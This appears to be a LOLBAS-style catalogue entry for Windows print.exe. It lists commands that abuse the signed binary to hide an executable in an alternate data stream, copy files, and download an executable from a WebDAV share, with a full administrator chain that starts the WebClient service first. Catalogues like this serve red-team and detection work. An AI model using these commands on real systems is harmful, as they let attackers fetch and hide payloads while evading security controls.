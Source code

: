 ## Print.exe

* Functions: Download, Copy, Add ADS

```
print /D:c:\ads\file.txt:file.exe c:\ads\file.exe     
     
print /D:C:\ads\CopyOfFile.exe C:\ads\FileToCopy.exe

print /D:c:\outfolder\outfile.exe \\webdavserver\folder\file.exe     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/Oddvarmoe/status/985518877076541440
* https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410

Full path:
```
c:\windows\system32\print.exe
c:\windows\sysWOW64\print.exe
```

Notes:
Please note for example three: The oufolder needs to exist and the outfile.exe can't exist. Additionally webclient needs to be running
```
(from an administrator prompt)
net start webclient && print /D:c:\outfolder\outfile.exe \\live.sysinternals.com\tools\adexplorer.exe && net stop webclient
```


 
